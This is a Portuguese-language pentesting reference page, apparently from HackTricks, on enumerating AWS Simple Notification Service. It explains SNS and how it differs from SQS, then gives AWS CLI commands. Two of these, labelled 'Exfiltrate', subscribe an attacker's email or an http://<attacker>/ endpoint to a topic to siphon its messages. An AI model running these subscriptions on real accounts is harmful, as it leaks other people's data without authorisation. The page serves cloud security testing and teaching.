 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

O Amazon Simple Notification Service (Amazon SNS) é descrito como um **serviço de mensagens totalmente gerenciado**. Ele suporta tanto **comunicação de aplicação para aplicação** (A2A) quanto **comunicação de aplicação para pessoa** (A2P).

As principais características para comunicação A2A incluem **mecanismos de publicação/inscrição (pub/sub)**. Esses mecanismos introduzem **tópicos**, cruciais para permitir mensagens **baseadas em push**, de **muitos para muitos** e de alto desempenho. Esse recurso é altamente vantajoso em cenários que envolvem sistemas distribuídos, microsserviços e arquiteturas serverless orientadas a eventos. Ao aproveitar esses tópicos, sistemas publicadores podem distribuir mensagens de forma eficiente para uma **ampla gama de sistemas assinantes**, facilitando um padrão de mensagens de fanout.

### **Diferença com SQS**

**SQS** é um serviço **baseado em fila** que permite comunicação ponto a ponto, garantindo que as mensagens sejam processadas por um **único consumidor**. Ele oferece **entrega de pelo menos uma vez**, suporta filas padrão e FIFO, e permite retenção de mensagens para tentativas e processamento atrasado.\
Por outro lado, **SNS** é um serviço **baseado em publicação/inscrição**, permitindo comunicação **de um para muitos** ao transmitir mensagens para **múltiplos assinantes** simultaneamente. Ele suporta **vários endpoints de assinatura, como email, SMS, funções Lambda e HTTP/HTTPS**, e fornece mecanismos de filtragem para entrega de mensagens direcionadas.\
Enquanto ambos os serviços permitem desacoplamento entre componentes em sistemas distribuídos, o SQS foca na comunicação em fila, e o SNS enfatiza padrões de comunicação orientados a eventos e de fan-out.

### **Enumeração**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> Note que se o **tópico for do tipo FIFO**, apenas assinantes usando o protocolo **SQS** podem ser utilizados (HTTP ou HTTPS não podem ser usados).
>
> Além disso, mesmo que o `--topic-arn` contenha a região, certifique-se de especificar a região correta em **`--region`** ou você receberá um erro que parece indicar que você não tem acesso, mas o problema é a região.

#### Acesso Não Autenticado

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md
{{#endref}}

#### Escalação de Privilégios

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc.md
{{#endref}}

#### Pós Exploração

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation.md
{{#endref}}

#### Persistência

{{#ref}}
../aws-persistence/aws-sns-persistence.md
{{#endref}}

## Referências

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
